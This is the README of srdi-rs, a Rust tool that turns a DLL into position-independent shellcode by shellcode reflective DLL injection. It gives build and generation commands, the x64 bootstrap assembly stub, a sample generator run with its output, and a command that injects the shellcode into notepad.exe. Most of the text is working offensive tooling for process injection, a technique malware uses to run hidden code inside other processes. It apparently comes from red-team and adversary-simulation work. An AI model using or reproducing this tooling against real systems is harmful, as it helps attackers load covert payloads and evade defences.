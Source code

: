 # Shellcode Reflective DLL Injection (sRDI)

## Description

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent code which can then be injected using our favourite shellcode injection and execution technique.

## Usage

0). [Install Rust](https://www.rust-lang.org/tools/install)

1). Build all of the projects

```
cargo build --release
```

2). Generate the shellcode.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe -h
Shellcode Reflective DLL Injection (sRDI)

Usage: generate_shellcode.exe [OPTIONS] --loader <LOADER> --payload <PAYLOAD> --function <FUNCTION> --parameter <PARAMETER> --output <OUTPUT>

Options:
      --loader <LOADER>        The reflective loader DLL path (loader.dll)
      --payload <PAYLOAD>      The payload DLL path (payload.dll)
      --function <FUNCTION>    The function to execute inside payload.dll (SayHello)
      --parameter <PARAMETER>  The parameter to pass to the function inside payload.dll (https://localhost:1337/)
      --output <OUTPUT>        The output file path (shellcode.bin)
      --flags <FLAGS>          The 0x0 flag will execute DllMain and any other flag will execute the function inside payload.dll (SayHello) [default: 1]
  -h, --help                   Print help
  -V, --version                Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

3). Bring your own injector (BYOI) and inject the position-independent code with your favourite injection and execution technique.

```
inject.exe <process> <shellcode.bin>
```

## Description

The bootstrap shellcode:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5
mov dword ptr [rsp + 0x28], <flags>

mov r9, <parameter_length>
add r8, <parameter_offset> + <payload_length>
mov edx, <parameter_hash>
add rcx, <payload_offset>

call <loader_offset>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

[![sRDI](./sRDI.png)](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

**Credits: [Nick Landers @(monoxgas)](https://github.com/monoxgas)**

## Example

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function UserFunction --parameter https://127.0.0.1:1337/ --flags 0 --output shellcode.bin
Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

```
.\inject.exe --process notepad.exe --file .\shellcode.bin
```

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/